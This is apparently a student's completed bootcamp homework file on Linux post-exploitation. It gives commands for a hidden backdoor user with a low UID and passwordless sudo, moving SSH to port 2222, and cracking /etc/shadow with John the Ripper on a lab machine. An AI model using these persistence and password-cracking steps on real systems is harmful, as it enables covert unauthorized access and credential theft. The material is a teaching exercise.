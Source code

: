 ## Rob Myers Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:

    - `sudo adduser --no-create-home sysd` 
   
2. Give your secret user a password: 

    - `no command, answered promps as directed after creating user sysd`   
                     or
    - `if logged in as sysd, then enter passwd`           
    - `if logged in as sysadmin, then enter passwd sysd`

3. Give your secret user a system UID < 1000:

    - `sudo usermod -u 869 sysd`
         
      ![picture](IMAGE/sysdID.PNG)    
                                                      
4. Give your secret user the same GID:

    - `sudo groupmod -g 869 sysd`
       
      ![picture](IMAGE/sysdID.PNG)

5. Give your secret user full `sudo` access without the need for a password:

   -  sudo visudo
   -  enter pass word
   -  /etc/sudoers.tmp folder
   
   -  root    ALL=(ALL:ALL) ALL
   -  sysd    ALL=(ALL:ALL) NOPASSWD:ALL      

6. Test that `sudo` access works without your password:

    - sudo -l 
    - (ALL : ALL) NOPASSWD: ALL  
         
      ![description](IMAGE/su_acc_nopass.PNG) 

NOTE: there are many other ways to modify your user. Here is another example that accomplishes similar tasks that are asked in the homework questions but done in one command: 

sudo adduser --no-create-home --uid 869 --disabled-password sysd

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    -sudo nano /etc/ssh/sshd_config
    - Port 2222

    ![description](IMAGE/step_2.PNG)

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysadmin@192.168.6.105 -p 2222`

![description](IMAGE/step3_1.PNG)

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo john /etc/shadow`
 
    ![description](IMAGE/passwd8.PNG)

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

